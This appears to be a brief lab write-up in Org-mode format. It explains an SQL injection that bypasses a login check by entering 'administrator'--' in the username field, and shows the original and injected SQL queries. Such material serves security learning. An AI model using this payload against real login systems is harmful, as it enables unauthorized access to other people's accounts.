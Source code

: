 #+title: SQL injection vulnerability allowing login bypass

* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#sql-injection][Sql injection]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#query-for-login-system][Query for login system]]
- [[#solution][Solution]]

* About

** Sql injection
+ in the login function

** End Goal
+ login as ~administrator~

* Steps

** Query for login system
~dummy query~
#+begin_SRC sql options
SELECT username, password FROM users WHERE username = 'administrator' AND password = 'somepassword'
#+end_SRC sql

Now we can bypass the password if our sql becomes
#+begin_SRC sql options
SELECT username, password FROM users WHERE username = 'administrator'--' AND password = 'somepassword'
#+end_SRC sql


* Solution
~Enter administrator'-- in username field~
